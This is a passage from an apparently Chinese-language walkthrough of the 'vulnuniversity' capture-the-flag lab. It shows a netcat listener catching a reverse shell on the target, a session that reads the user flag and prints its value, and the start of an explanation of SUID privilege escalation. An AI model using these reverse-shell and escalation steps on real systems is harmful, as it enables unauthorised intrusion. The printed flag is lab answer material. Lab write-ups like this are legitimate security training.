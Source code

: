 + nc会话进入目标：

    ```
    root@ip-10-10-160-108:~# nc -nlvp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from 10.10.181.254 41384 received!
    Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    01:38:59 up  4:24,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $ pwd
    /
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ cd /home
    $ ls
    bill
    $ cd bill
    $ ls
    user.txt
    $ cat user.txt
    8bd7992fbe8a6ad22a63361004cfcedb
    ```

## linux提权

+ 在Linux中，SUID(执行时设置所有者userId)是授予文件的一种特定类型的文件权限。SUID为用户提供临时权限，以文件所有者(而不是运行它的用户)的权限运行程序/文件。

    + For example：更改密码的二进制文件（/usr/bin/passwd）设置了 SUID 位。这是因为要修改密码，它需要写入 shadowers 文件，而你没有权限访问该文件，root 才有权限；所以它必须有 root 权限才能进行正确的修改。

        ![Alt text](/style/image/image-253.png)
